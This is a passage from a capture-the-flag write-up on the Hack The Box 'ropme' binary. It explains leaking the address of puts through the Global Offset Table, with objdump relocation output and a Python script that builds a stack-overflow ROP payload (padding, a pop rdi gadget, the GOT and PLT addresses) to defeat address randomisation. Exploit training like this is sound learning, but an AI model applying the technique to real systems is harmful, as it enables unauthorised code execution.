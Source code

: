 How can we know the location of some address of `puts`? fortunately for us, `puts` is being called by the program and is a part of the original code.
Thanks to that, the address of puts is stored on the Global Offset Table (GOT) of the file.

Looking at the file's relocations table we can see the following:

```
shaked@shaked-ubuntu:~/programming2/challenges/hack_the_box/ropme$ objdump -R ropme

ropme:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdout@@GLIBC_2.2.5
0000000000601060 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5
```

What we learn from this is that the location of `puts` at libc will be determined during runtime and will be stored at a fixed non-randomized location which is: `0x601018`. (This can be confirmed also if you follow the call to `puts@plt`)

So the plan is clear, we need to somehow make the program leak the location at address `0x601018`, to do that we can manipulate the program to call `puts((char *) (*0x601018))`. How is that possible?

- Well, the location of `puts@plt` is fixed as this is a PLT stub that actually calls the true function, so we will just `ret` to that stub
- We know the location which we want to print, we would make the program print the value in `0x601018` as a string but we will read the bytes from it and learn the address of `puts`

Let's get to work, we will use the same technique of ROPing to make the program call the `puts` function with the argument we provide:

```Python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
puts_got = ptr(0x601018)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

print payload
```
